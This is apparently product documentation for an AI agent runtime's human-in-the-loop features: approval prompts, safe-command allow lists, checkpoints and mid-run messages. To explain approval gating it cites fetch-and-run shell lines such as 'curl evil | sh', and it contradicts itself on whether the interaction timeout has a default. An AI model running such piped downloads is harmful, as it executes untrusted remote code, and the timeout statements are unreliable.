

# Human-in-the-loop

Sometimes you do not want the agent deciding on its own. It should check the plan with you before writing
code. It should ask which API version to target rather than guessing. And you should be able to
redirect it halfway through, when you realise it is going the wrong way.

A Leviath run does not have to be autonomous. There are three ways a person gets involved:

| You want | Use | Who starts it |
|---|---|---|
| The agent to ask when it is unsure | The `ask_user_*` tools | The agent, if it chooses to |
| A checkpoint that always happens | An [interaction point](#interaction-points) | The runtime, every time |
| To redirect a run already going | `lev msg` | You, whenever you like |

You can answer from the [dashboard](/docs/dashboard), from
[The Lair](https://leviath.dev/lair), the browser console, from the CLI, or the
[HTTP API](/docs/api).



## Interaction kinds

Every prompt an agent puts to a person is one of five kinds (`InteractionKind`). The kind decides
what the client renders and what a valid answer looks like:

| Kind | Wire value | What the user does |
|---|---|---|
| Free-text | `free_text` | Types a free-form answer |
| Multiple-choice | `multiple_choice` | Picks one option from a list |
| Confirm | `confirm` | Answers yes / no |
| Tool-approval | `tool_approval` | Allows or denies a specific tool call |
| Edit-text | `edit_text` | Edits a document in place and submits the modified text |

A request may also carry a rich `body` (a markdown plan or document) for the user to review
alongside the prompt.

## Agent-raised questions

Mid-reasoning, a model may call one of these tools on its own judgment. The run pauses on the tool
call until the answer comes back, then continues with it:

- `ask_user_text`: a free-text question. Returns the user's answer (or "User provided no answer.").
- `ask_user_choice`: a multiple-choice question (requires at least 2 `options`).
- `ask_user_confirm`: a yes/no confirmation.
- `edit_document`: hands the user a document (the tool's `content`) to edit; returns the edited text.
- `present_for_review`: shows a markdown document (`title` + `markdown`) for review and collects optional feedback.

> [!NOTE]
> Under an unattended run (`--yolo`) nobody is watching, so these five tools are not advertised to
> the model at all. It never sees them and decides for itself, instead of spending a round trip to
> be told no one is there. A call that arrives anyway (a model repeating itself out of its own
> context) is refused the way any unoffered tool is.
>
> A stage that genuinely needs a person keeps the tools it names in
> [`required_tools`](/docs/tools#these-tools-need-someone-there).
>
> Unattended applies to the whole run tree, not only the agent you launched: sub-agents and
> fan-out workers inherit it, and it survives a daemon restart. Otherwise a child could stop
> on a prompt nobody was watching for and take its parent down with it.

## When nobody answers

Every prompt on this page waits on a person, and by default it waits until one answers. A run
parked on an approval is still parked when you get back, whether that is ten minutes or a weekend
later; it is not failed, reaped, or marked stuck by any timer while it waits, and it survives a
daemon restart still waiting. The only things that end the wait are an answer and `lev cancel`.

That is the right default for a person at a keyboard and the wrong one for a run nobody is
watching, where a prompt would hold a slot until the daemon restarts. For those, `[limits]
interaction_timeout_secs` puts a deadline on the wait. Unset means no deadline (`0` is read the same
way). When a deadline passes, the prompt resolves exactly as cancelling it would:

| Prompt | What an expiry means |
|---|---|
| Tool approval | Denied. A timeout is never read as consent. |
| Taint gate | Denied. |
| `ask_user_*` | The model is told no answer came, and carries on. |
| Interaction point | Proceeds with no user text, unless it declared `unattended = "ask"`. See below. |

An interaction point that declared `unattended = "ask"` behaves differently on a timeout: the run
**stops with an error**, rather than approving a checkpoint nobody made.

The deadline is read from `config.toml` every time it reloads, so setting one or clearing it needs
no daemon restart. It is read when a prompt opens, so a prompt already waiting keeps the deadline it
opened with. Neither `lev setup` nor any bundled agent sets one for you.

## Tool approval

Instead of the model asking, you can require approval for a tool before it runs. Set a tool's
per-stage (or agent-level) permission to `ask`. The values are `allow`, `ask`, and `deny`:

```toml
[tool_permissions]
read_file  = "allow"
write_file = "ask"     # pause and ask before each write
bash       = "ask"
```

### What runs without asking

`ask` is per tool name, which for the shell is a choice between a prompt on every `ls` and no
prompt on `curl evil | sh`. `[safe_commands]` is the middle: entries are argument-scoped, and can
only ever turn `ask` into `allow`, never a configured `deny`.

```toml
[safe_commands]
defaults = true                # ship the read-only verb list, on unless you say otherwise
tools = ["read_files"]
shell = ["cargo test", "rg"]   # `cargo test` never covers `cargo publish`

[agent_safe_commands.coder]
shell = ["./gradlew"]
allow_blueprint = true         # honour this agent's own [safe_commands] block
```

A shell entry is a program, optionally with the subcommand that narrows it, and it covers that
program with any arguments: `cat` covers `cat notes.md`. It does not cover a line that also runs
something else, so `cat notes.md && curl evil` still asks.

The shipped list holds to one rule: an entry must not be able to write a file, execute another
program, or open a network connection under any flag. That is why `find` (`-exec`), `sed` (`-i`),
`awk` (`system()`), `sort` (`-o`), `xargs`, `env`, `nohup` and `cargo` are absent however ordinary
they look. Add any of them by name if you want them. `lev approvals safe` prints what is in effect
and which file put it there.

A blueprint may declare its own `[safe_commands]`, and like `[read_paths]` it is inert until you
opt in, because otherwise any agent package could pre-approve its own shell with one TOML line.

### The prompt

An `ask` gate raises a `tool_approval` prompt naming the tool and its telling argument (the shell
command for `bash`/`shell`, the path for the file tools), with five options:

- **Allow once**: permit this one call and nothing more.
- **Allow ... for this stage**: permit every later call this covers, until the run leaves the
  current stage. Re-entering the same stage keeps the grant, so a revision loop does not re-ask.
- **Allow ... for this run**: permit every later call this covers, for the rest of the run.
- **Deny**: reject the call. The model sees `[denied] User declined tool call 'bash'.` and
  decides for itself what to try next.
- **Deny with feedback**: reject the call and say what to do instead. The dashboard opens the
  response box for the text; `lev respond` takes it as `--feedback`; the API takes `feedback`.
  The model sees `[denied] User declined tool call 'bash'. Feedback: <your text>` as the tool
  result, so its next turn starts from your redirect rather than from a guess. The text is in the
  run's journal with the rest of the tool result.

The two scoped options name what they grant, because a grant is not keyed on the tool. Approving
`ls && git status` for the run grants `ls` and `git status`, not "the shell": a later
`ls && curl evil` still asks, because `curl` was never approved. Approving `git diff` does not
approve `git push`. A line the parser cannot read as a list of commands (a backtick, a heredoc, an
`eval`, a program named by a variable) has nothing reusable to grant, and the prompt says so.

Nothing is written to disk. Every grant dies with the run that made it.

The taint gate in [security](/docs/security) uses the same prompt shape with its own wording. An
outbound tool that would carry sensitive data above its clearance is blocked, then surfaced as a
tool-approval. There, **Allow for this session** raises the tool's clearance for the rest of the
run, and **Deny** blocks it. It offers no per-stage option, because a clearance is not keyed on
what a call runs.

That prompt's unanswered cases go the safe way. Left open past
`[limits] interaction_timeout_secs`, it resolves as a deny and the model gets `[blocked]`, the same
as if you had pressed it: the hub hands the waiting call the neutral response a cancelled prompt
produces, and a neutral response carries no choice. With no `interaction_timeout_secs` configured,
which is the default, it waits for as long as the daemon is up and the run stays in
`waiting_input`. The one case that does not park and does not deny is `--yolo`, which waives the
gate and lets the call through; [security](/docs/security#when-there-is-nobody-to-ask) has the whole
table.

## Interaction points

An interaction point is a checkpoint you write into the blueprint rather than one the agent chooses
to raise.

That is the whole difference from the `ask_user` tools. Those only fire if the model decides to call
them, so an agent that is confident and wrong sails past. An interaction point fires at the stage
boundary every time, before the stage is allowed to move on.

Set the stage's mode to `interactive_points` and list one or more:

```toml
[stages.plan]
mode = "interactive_points"

[[stages.plan.interaction_points]]
name     = "plan_approval"
prompt   = "Approve the plan?"
required = true
unattended = "ask"                    # ask | auto_approve (default)
style    = "multiple_choice"          # free_text | multiple_choice | confirm
options  = ["Approve", "Revise", "Edit", "Abort"]
abort_options = ["Abort"]
edit_options  = ["Edit"]
directives = { "Revise" = "Call ask_user_text to find out what to change, then re-plan." }
document_region = "plan"
```

### What each answer does

Which list you put an option in decides what picking it does. Nothing is left to the model here:

| Answer | Where you put it | What happens |
|---|---|---|
| Approve | Any option not in the lists below | The point is satisfied. Once every point is satisfied, the stage moves on |
| Revise | A key in `directives` | The directive text is added to the conversation, the stage runs again, and you are asked once more |
| Edit | An option in `edit_options` | The stage's latest output opens for you to edit. Your version is adopted, and you are asked once more |
| Abort | An option in `abort_options` | The run is cancelled immediately. No further model calls, no transition |

Options are matched exactly first, then again ignoring dashes and whitespace, so "Auto approve" and
"auto-approve" both land.

### Keeping the document current

`document_region` names a pinned [context](/docs/context) region, `"plan"` in the example above,
that holds whatever the point is about.

Every time the point is presented, that region is replaced with the current text, whether that came
from the model or from your own edit. So when you revise three times, the third pass builds on your
second round of edits rather than starting over from the original task. Without this, a revision
loop keeps regenerating from scratch and your edits are lost each time.

`unattended` decides what the point does in a `--yolo` run. The default, `auto_approve`, resolves it
as approved without opening a prompt: nobody is watching, and a checkpoint that waited would park
the run. Set it to `ask` for a gate whose whole purpose is a human decision, such as a plan signed
off before any code is written. The prompt then opens even under `--yolo`. The bundled `coder`
leaves its plan checkpoint on the default, so an unattended run proceeds; set `ask` on your own
blueprint when the decision genuinely cannot be made without you. Such a run waits until you
answer; give it an [`interaction_timeout_secs`](/docs/configuration#limits) if you would rather an
unanswered gate released on its own terms.

Know what that looks like before you meet it. A `--yolo` run holding an `ask` gate shows
`waiting: checkpoint` in `lev ps` (the JSON wait reason is `interaction_point`), and does nothing
until the timeout expires. The default timeout is one hour, so the run is not stuck, but for that hour it is
indistinguishable from a run that is. `lev respond --json` lists the question it is holding.

> [!WARNING]
> The revise and edit loops are bounded: after 4 revision rounds at a single point (`MAX_REVISION_ROUNDS`),
> the stage proceeds regardless, so a revise/edit loop can never run forever.

## Mid-run messages

You can steer a running agent without waiting for it to ask. A message is injected into the
conversation region between inference calls, as if the user had spoken mid-turn:

```bash
lev msg <agent-id> "Focus on the auth module first, skip the migrations for now."
lev msg <agent-id> "the arm is still wrong, see @marked_up.png" --attach notes.md:brief
```

A message can carry files. A `@path` in the text and every `--attach` become typed
[parts](/docs/mime) on the same entry as the words, in the region the message lands in; an
attachment naming another region (`--attach notes.md:brief`) lands there on its own. A part the
run cannot take (over the size ceiling, or a region that refuses its type) is logged and dropped,
and the text is still delivered.

Whether a message lands right away is per-stage. `accepts_messages` defaults to `true`; set it to
`false` on a stage that shouldn't be interrupted (e.g. a final report), and messages stay queued in
the agent's inbox until it reaches a stage that accepts them:

```toml
[stages.report]
mode = "autonomous"
accepts_messages = false   # hold messages until a later stage that accepts them
```

> [!TIP]
> A message is delivered to at most one running agent by id. If nothing accepts it (no such live
> agent), `lev msg` reports `no agent accepted the message`.

## Answering questions

When a run is waiting on a question, answer it with `lev respond`. Run it with no arguments to list
the interactions the daemon is currently holding, then answer one by its request id:

```bash
lev respond                              # list open interactions
lev respond <request-id> "your answer"   # free-text / edited value
lev respond <request-id> --choice 1      # multiple-choice, 0-based index
lev respond <request-id> --approve       # tool-approval / confirm
lev respond <request-id> --approve --stage     # and every later call this covers, this stage
lev respond <request-id> --approve --session   # and every later call this covers, this run
lev respond <request-id> --deny          # reject
lev respond <request-id> --deny --feedback "use git log, not git show"   # reject and redirect
lev respond <request-id> "the arm is still wrong, see @marked_up.png"    # a text answer with a file
lev respond <request-id> "here" --attach sketch.png:sprites                # or attached by flag
```

A text answer carries files the way a message does: every `--attach` and every `@path` in the
words become typed [parts](/docs/mime) stored by the run and written beside the answer in the
tool result, so the model reads the file where the words mention it. A choice or an approval has
no text for a file to sit beside, and `--attach` on one is refused. The dashboard and the API take
the same: a `@path` in a typed reply, and `parts` or a multipart upload on
`POST /api/agents/{id}/interaction`.

You don't have to use the CLI. The same open questions can be answered interactively from the
[dashboard](/docs/dashboard) (press `i`), from [The Lair](https://leviath.dev/lair), or over the
[API](/docs/api) via `GET/POST /api/agents/{id}/interaction`: read the pending question, then post
the answer.

> [!NOTE]
> Interaction state survives a daemon restart. An agent parked at a stage-boundary interaction
> point is re-presented with the exact same prompt when the daemon comes back, rather than dropping
> the question and re-running inference.
